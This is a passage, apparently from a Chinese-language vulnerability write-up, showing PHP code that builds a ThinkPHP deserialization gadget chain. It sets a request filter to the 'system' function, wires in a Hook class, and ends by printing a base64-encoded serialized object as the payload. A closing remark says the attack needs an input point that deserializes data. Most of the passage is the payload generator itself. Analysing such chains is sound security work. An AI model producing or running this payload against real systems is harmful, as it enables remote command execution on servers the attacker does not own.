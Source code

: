             // PATHINFO变量名 用于兼容模式
            'var_pathinfo'     => 's',
            // 兼容PATH_INFO获取
            'pathinfo_fetch'   => ['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
            // 默认全局过滤方法 用逗号分隔多个
            'default_filter'   => '',
            // 域名根，如thinkphp.cn
            'url_domain_root'  => '',
            // HTTPS代理标识
            'https_agent_name' => '',
            // IP代理获取标识
            'http_agent_ip'    => 'HTTP_X_REAL_IP',
            // URL伪静态后缀
            'url_html_suffix'  => 'html',
        ];
        function __construct(){
            $this->filter = "system";
            $this->config = new Hook();
            $this->hook = ["append"=>[$this,"isAjax"]];
        }

    }
    namespace think;
    class Hook{
        private $tags = ["var_ajax"=>'a'];
        public function get($tag = '')
        {
            if (empty($tag)) {
                //获取全部的插件信息
                return $this->tags;
            } else {
                return array_key_exists($tag, $this->tags) ? $this->tags[$tag] : [];
            }
        }
    }
    use think\process\pipes\Windows;
    echo base64_encode(serialize(new Windows()));

> 漏洞的利用前提是存在一个点可以输入点可以反序列化。
